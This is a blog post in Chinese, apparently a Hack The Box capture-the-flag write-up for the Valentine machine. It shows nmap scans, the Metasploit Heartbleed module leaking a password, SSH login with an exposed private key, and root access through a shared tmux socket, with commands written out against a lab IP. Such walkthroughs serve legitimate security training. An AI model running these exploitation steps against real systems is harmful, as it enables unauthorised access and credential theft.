 ```yaml
---
title: "【HTB Machine】Valentine"
date: 2024-03-05
tags:
  - ctf
url: "/posts/HTB/Valentine/"
---
```


# 【HTB Machine】Valentine

```
LHOST: 10.10.16.13
RHOST: 10.129.11.184
```

```bash
nmap -sCV 10.129.11.184
```

![image1](/images/htb/valentine/image1.png)

```bash
nmap --script vuln 10.129.11.184
```

![image2](/images/htb/valentine/image2.png)

Heartbleed 有心臟出血漏洞

網路上很多 POC, 這邊直接開 metasploit 來攻擊

```bash
msfconsole
search openssl
use auxiliary/scanner/ssl/openssl_heartbleed
set RHOSTS 10.129.11.184
set verbose true
run
```

![image3](/images/htb/valentine/image3.png)

有一串看起來像 Base64 的字串，拿去解密

![image4](/images/htb/valentine/image4.png)

看起來像密碼

現在來找使用者名稱

使用 dirbuster 爆破目錄

![image5](/images/htb/valentine/image5.png)

`/dev/hype_key` 看起來很有趣

下載下來後拿去 xxd 會發現是 ssh private key

拿來登入看看，這裡需要通靈一下，使用者名稱是 hype

```bash
chmod 600 hype_key
ssh -i hype_key hype@10.129.11.184 -o PubkeyAcceptedKeyTypes=+ssh-rsa # 加上 PubkeyAcceptedKeyTypes 是因為這個 key 太舊而不會被新版的 ssh 接受
```

![image6](/images/htb/valentine/image6.png)

# User Pwned!!!

## 提權

看看歷史指令紀錄

```bash
history
```

![image7](/images/htb/valentine/image7.png)

這個使用者使用過 `tmux`，開了一個 dev session，照著他的指令打一遍看看

```bash
tmux -S /.devs/dev_sess
```

直接拿到 root shell

![image8](/images/htb/valentine/image8.png)

# Root Pwned!!!

## Summary

這題除了通靈使用者名稱外還算簡單，下次有空來試試看不用 metasploit 的方式來 exploit Heartbleed
